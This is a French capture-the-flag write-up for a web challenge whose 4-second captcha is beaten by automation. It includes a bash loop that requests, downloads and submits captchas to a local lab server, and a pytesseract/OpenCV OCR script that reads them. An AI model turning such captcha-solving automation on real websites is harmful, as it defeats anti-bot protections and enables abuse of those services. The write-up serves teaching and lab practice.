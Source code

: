 # Challenge
Get Out !

## Enonce
Vous êtes pris dans un état hypnotique, et pour vous échapper, vous devrez faire preuve d'un dernier effort de lucidité et de rapidité. Votre esprit sera mis à l'épreuve, et si vous échouez, l'hypnose reprendra le contrôle. C'est votre seule chance de ne pas sombrer.

## Solution
En arrivant sur la page d'accueil, on nous invite à commencer un challenge.
Aussitot, un captcha de 11 caractères s'affiche et seulement 4 secondes sont données pour y le renseigner.

![image](assets/capture_index.png)

Lorsque l'on capture les échanges HTTP, nous obtenons une première requète GET `/generate-catcha` qui permet de charger une image catcha sur l'écran de l'utilisateur :

![image](assets/capture_burp_generate.png)

Puis en tentant d'envoyer une valeur arbitraire, nous obtenons une requête POST `/validate-catcha` :

![image](assets/capture_burp_validate.png)

Si nous tentons de rejouer la requête POST cela indique que la session a expiré :

![image](assets/capture_burp_validate_expired.png)

Il faut alors scripter pour tenter de rentrer dans les temps.
La premières étape va donc etre d'enregistrer un captcha puis chercher si des solutions existent permettant de le résoudre rapidement.

Le fichiers assets/scripts.js nous renseigne sur l'endroit où l'on pourra effectuer le téléchargerement de l'image :

![image](assets/capture_scripts_js.png)

Une rapide recherche sur notre navigateur préféré nous remonte 2 outils de résolution de captcha qui semblent plutôt populaires : `gocr` et `pytesseract`

Un code déjà tout prêt est disponible dans ce lien : [pytesseract script link](https://gist.github.com/lobstrio/da95d31bff3f83a5e95ee9daeb253107)

Ne reste plus qu'à tester ... (Il se peut que certaines erreurs se fassent en fonction de la lisibilité du captcha)

![image](assets/capture_test_script.png)

Nous avons maintenant notre outil pour résoudre le captcha.

Reste désormais à autormatiser tout ça.

***solve.sh***
```
#/bin/bash

HOST="127.0.0.1"
PORT="666"
DEST_IMAGE="/tmp/img_chall_getout.png"
i=0
while true; do
  i=$((i+1))
  # Génération du captcha
  response=$(curl -s -i http://${HOST}:${PORT}/generate-captcha)

  # Extraire le cookie "session_id"
  session_id=$(echo "${response}" | grep -Fi "Set-Cookie" | sed -n 's/Set-Cookie: session_id=\(.*\);.*/\1/p')
  # Extraire le nom de fichier (corps de la réponse)
  file_name=$(echo "${response}" | tail -n 1)

  # Télécharger le captcha généré
  curl -s http://${HOST}:${PORT}/static/captchas/${file_name} -o ${DEST_IMAGE}
  # Executer le script de résolution de captcha
  ocr=$(python3 resolve_captcha.py ${DEST_IMAGE})

  # Soumission du captcha résolu
  result=$(curl -s -X POST http://${HOST}:${PORT}/validate-captcha -b session_id=${session_id} -d captcha=${ocr})
  echo "Test ${i} -> $ocr -> ${result}"
  # Stopper la boucle si la chaine "ENI{" (format du flag) est comprise dans la réponse
  if echo "${result}" | grep -q "ENI{"; then
    break
  fi
  rm -f ${DEST_IMAGE}
done

```

***resolve_captcha.py***
```
import cv2
from pytesseract import image_to_string
import re
import sys

# pip3 install opencv-python
# pip3 install pytesseract
# MacOS : brew install tesseract

# Filename donné en parametre au sein du script solve.sh
filename = sys.argv[1]
img = cv2.imread(filename)
gry = cv2.cvtColor(img, cv2.COLOR_BGR2GRAY)
(h, w) = gry.shape[:2]
gry = cv2.resize(gry, (w*2, h*2))
cls = cv2.morphologyEx(gry, cv2.MORPH_CLOSE, None)
thr = cv2.threshold(cls, 0, 255, cv2.THRESH_BINARY | cv2.THRESH_OTSU)[1]
txt = image_to_string(thr)
txt_cleaned = re.sub(r"[^a-zA-Z0-9À-ÿ'\"!@#$%^&*()_+={}\[\]:;,.<>?\/\\|-]", "", txt)
print(txt_cleaned)

```

En lançant le script bash `solve.py`, une requête curl va effectuer une génération de captcha, le télécharger, puis tenter de le déchiffrer. Pour finir, le script soumettra la valeur trouvée.
Cette boucle se répétera jusqu'à ce qu'une réponse comportant le début du flag apparaisse :

![image](assets/capture_flag.png)

## Hints
- Existe-il des outils ou scripts populaires permettant de resoudre les captchas sur lesquels s'appuyer ?
- On me souffle à l'oreillette de se renseigner sur la librairie pytesseract

